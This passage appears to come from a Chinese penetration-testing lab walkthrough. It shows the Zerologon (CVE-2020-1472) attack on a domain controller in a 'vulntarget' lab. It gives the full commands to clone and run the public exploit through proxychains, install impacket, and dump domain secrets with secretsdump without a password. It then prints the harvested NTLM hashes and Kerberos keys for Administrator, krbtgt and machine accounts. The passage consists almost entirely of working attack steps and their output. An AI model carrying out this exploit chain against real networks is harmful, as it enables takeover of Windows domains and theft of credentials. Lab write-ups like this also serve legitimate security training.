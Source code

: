 

**下载漏洞利用模块**

```
git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472
proxychains4 python cve-2020-1472-exploit.py WIN 10.0.10.110
```

![](img/Snipaste_2022-02-22_23-57-29.png)

### 14.4获取HASH

使用impacket包中的secretsdum.py来获取相关的HASh

**kali安装impacket 工具包**

```
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py build && python setup.py install
```



CVE-2020-1472利用方法：

先抓取密码hash：

```
#python3 secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass
                                           域控        /域控主机名                       域控IP
                                           
proxychains4 impacket-secretsdump vulntarget.com/WIN2019\$@10.0.10.110 -no-pass
```



抓取的密码hash为：

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c7c654da31ce51cbeecfef99e637be15:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a3dd8e4a352b346f110b587e1d1d1936:::
vulntarget.com\win2016:1601:aad3b435b51404eeaad3b435b51404ee:dfc8d2bfa540a0a6e2248a82322e654e:::
WIN2019$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN2016$:1602:aad3b435b51404eeaad3b435b51404ee:0edd9a54036798d9689cd1ddea17e1b2:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:70a1edb09dbb1b58f1644d43fa0b40623c014b690da2099f0fc3a8657f75a51d
Administrator:aes128-cts-hmac-sha1-96:04c435638a00755c0b8f12211d3e88a1
Administrator:des-cbc-md5:dcc29476a789ec9e
krbtgt:aes256-cts-hmac-sha1-96:f7a968745d4f201cbeb73f4b1ba588155cfd84ded34aaf24074a0cfe95067311
krbtgt:aes128-cts-hmac-sha1-96:f401ac35dc1c6fa19b0780312408cded
krbtgt:des-cbc-md5:10efae67c7026dbf
vulntarget.com\win2016:aes256-cts-hmac-sha1-96:e4306bef342cd8215411f9fc38a063f5801c6ea588cc2fee531342928b882d61
vulntarget.com\win2016:aes128-cts-hmac-sha1-96:6da7e9e046c4c61c3627a3276f5be855
vulntarget.com\win2016:des-cbc-md5:6e2901311c32ae58
WIN2019$:aes256-cts-hmac-sha1-96:092c877c3b20956347d535d91093bc1eb16b486b630ae2d99c0cf15da5db1390
WIN2019$:aes128-cts-hmac-sha1-96:0dca147d2a216089c185d337cf643e25
WIN2019$:des-cbc-md5:01c8894f541023bc
WIN2016$:aes256-cts-hmac-sha1-96:100d74b72d7c042108e3f351a35e96927fa867ce6fe574671058071159422ea2
```